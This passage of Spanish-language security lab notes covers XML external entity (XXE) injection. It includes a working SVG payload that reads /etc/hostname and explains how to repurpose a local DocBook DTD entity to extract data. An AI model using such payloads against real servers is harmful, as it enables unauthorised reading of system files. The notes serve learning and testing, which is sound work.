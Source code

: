 - Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/hostname">]>

<svg version="1.1" xmlns="http://www.w3.org/2000/svg" width="200px" height="200px">
<text font-size="15" x="8" y="28">&myFile;</text>
</svg>
```

## XXE usando DTD local para extraer datos || Exploiting XXE to retrieve data by repurposing a local DTD

![](/img2/Pasted%20image%2020250816191411.png)

> Para acceder a un archivo DTD interno podemos usar la ruta /usr/share/yelp/dtd/docbookx.dtd, esta ruta contiene varias entidades como 'ISOamso'. Dentro de este archivo se crea la entidad y posteriormente se expande, esto lo podemos aprovechar para modificar el contenido de dicha entidad. Para modificar el contenido primero tenemos que crear y expandir una entidad la cual contenga el archivo a editar. En segundo lugar, referenciamos la entidad la cual queramos modificar, en este caso 'ISOamso' añadiéndole como contenido las instrucciones que nosotros queramos.

![](/img2/Pasted%20image%2020250816191214.png)
